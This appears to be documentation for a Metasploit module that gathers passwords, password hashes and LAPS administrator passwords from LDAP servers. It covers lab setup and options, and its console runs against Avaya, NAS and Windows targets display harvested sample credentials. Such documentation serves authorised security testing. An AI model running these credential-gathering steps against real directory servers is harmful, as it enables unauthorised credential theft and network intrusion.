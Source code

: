 ## Vulnerable Application

### Description

This module will gather passwords and password hashes from a target LDAP server via multiple techniques including
Windows LAPS.

### Setup (OpenLDAP via Docker)

Tested in the wild.

You may eventually setup an intentionally insecure OpenLDAP server in docker.
The below OpenLDAP server does not have any ACL, therefore the hashPassword
attributes are readable by anonymous clients.

```
$ git clone https://github.com/HynekPetrak/bitnami-docker-openldap.git
$ cd bitnami-docker-openldap
$ docker-compose up -d
Creating bitnami-docker-openldap_openldap_1 ... done
```

```
msf auxiliary(gather/ldap_passwords) > rerun ldap://:@127.0.0.1:1389
[*] Reloading module...
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Discovered base DN: dc=example,dc=org
[*] The target LDAP server is not an Active Directory Domain Controller.
[*] Searching base DN: dc=example,dc=org
[+] Credentials (password) found in userpassword: user01:password1
[+] Credentials (password) found in userpassword: user02:password2
[*] Found 2 entries and 2 credentials in 'dc=example,dc=org'.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(gather/ldap_passwords) >
```

### Setup (Windows LAPSv1)
1. Start with a Windows Domain Controller
2. Install all the programs from the applicable binary from https://www.microsoft.com/en-us/download/details.aspx?id=46899
3. Make sure the user account is a Schema Admin, reboot after joining the group
4. Set the Group Policy settings as noted in Section 3 of the “LAPS_OperationsGuide.docx” file
5. Run the UI as noted in Section 4, the LDAP attributes should be populated at this point

### Setup (Windows LAPSv2)
1. Start with a Windows Domain Controller that has the April 2023 security update installed
2. Follow the instructions from https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-scenarios-windows-server-active-directory

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

### USER_ATTR

LDAP attribute to that contains the username. Defaults to the first attribute that exists in the search order
`sAMAccountName` (Active Directory), `uid` (OpenLDAP), `dn`.

### PASS_ATTR

LDAP attribute to take the password data from. This option will be added to the array of options the module always
searches for.

## Scenarios

### Avaya Communication Manager via anonymous bind

```
msf auxiliary(gather/ldap_passwords) > options

Module options (auxiliary/gather/ldap_passwords):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   BASE_DN                        no        LDAP base DN if you already have it
   PASS_ATTR     userPassword     no        Additional LDAP attribute(s) that contain password hashes
   READ_TIMEOUT  600              no        LDAP read timeout in seconds
   SSL           false            no        Enable SSL on the LDAP connection
   USER_ATTR                      no        LDAP attribute(s), that contains username


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on


   Used when making a new connection via RHOSTS:

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LDAPDomain                     no        The domain to authenticate to
   LDAPPassword                   no        The password to authenticate with
   LDAPUsername                   no        The username to authenticate with
   RHOSTS                         no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         389              no        The target port
   THREADS       1                yes       The number of concurrent threads (max one per host)


View the full module info with the info, or info -d command.

msf auxiliary(gather/ldap_passwords) > set RHOSTS 192.0.2.1
RHOSTS => 192.0.2.1

msf auxiliary(gather/ldap_passwords) > run
[*] Discovered base DN: dc=vsp
[*] The target LDAP server is not an Active Directory Domain Controller.
[*] Searching base DN: dc=vsp
[+] Credentials found: cust:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[+] Credentials found: admin:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[*] Found 2 entries and 2 credentials in 'dc=vsp'.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### NASDeluxe - NAS with Samba LM/NTLM hashes

```
msf auxiliary(gather/ldap_passwords) > set RHOSTS 192.0.2.1
RHOSTS => 192.0.2.1

msf5 auxiliary(gather/ldap_passwords) > run
[*] Running module against 192.0.2.1

[*] Discovered base DN: dc=server,dc=nas
[*] The target LDAP server is not an Active Directory Domain Controller.
[*] Searching base DN: dc=server,dc=nas
[+] Credentials found: admin:209C6174DA490CAEB422F3FA5A7AE634
[+] Credentials found: joe:58E8C758A4E67F34EF9C40944EB5535B
[*] Found 2 entries and 2 credentials in 'dc=server,dc=nas'.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Windows Server 2019 - LAPSv2 with Encryption
```
msf auxiliary(gather/ldap_passwords) > run ldap://msflab.local;smcintyre:Password1!@192.0.2.10
[*] Discovered base DN: DC=msflab,DC=local
[*] The target LDAP server is an Active Directory Domain Controller.
[*] Searching base DN: DC=msflab,DC=local
[+] Credentials (password) found in mslaps-encryptedpassword: Administrator:m8L3A.LcZ9!lnT (expires: 2025-03-08 17:22:57 UTC)
[*] Found 1 entries and 1 credentials in 'DC=msflab,DC=local'.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(gather/ldap_passwords) >
```
